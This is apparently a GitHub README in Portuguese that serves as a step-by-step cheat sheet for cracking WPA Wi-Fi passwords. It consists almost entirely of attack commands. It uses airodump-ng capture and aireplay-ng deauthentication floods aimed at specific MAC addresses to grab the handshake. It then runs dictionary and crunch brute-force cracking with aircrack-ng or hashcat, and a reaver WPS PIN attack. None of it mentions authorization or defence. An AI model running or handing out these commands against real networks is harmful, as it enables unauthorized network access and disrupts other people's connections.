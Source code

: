# Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br> <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
<b> apt -y install seclists </b> <br>
/usr/share/seclists/ <br>
/usr/share/wordlists/rockyou.txt <br>
Weakpass, CrackStation, Pastebin <br> <br>
Organizando arquivo wordlist customizado: <br>
<b> sort wordlist.txt | uniq -u > wordlist_final.txt </b> <br> <br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br> <br> <br>
Pode ser utilizado o hashcat para quebrar a senha: https://hashcat.net/cap2hashcat/ <br>
Convertendo arquivo .cap para arquivo do hashcat e rodando o hashcat externamente em outro servidor <br>
<b> FORMA VIA WPS SEM USO DE WORDLIST (Isso só funciona se o roteador estiver configurado para não usar PBC (Push Button Authentication) </b> <br>
wash --interface wlan0 <br>
reaver --bssid E4:C0:E2:1C:6E:6B  --channel 10 --interface wlan0 -vvv --no-associate <br>
aireplay-ng --fakeauth 30 -a E4:C0:E2:1C:6E:6B -h mac_wlan0 wlan0  <br> <br>
<b> Avaliar linha com: WPA PSK: </b>
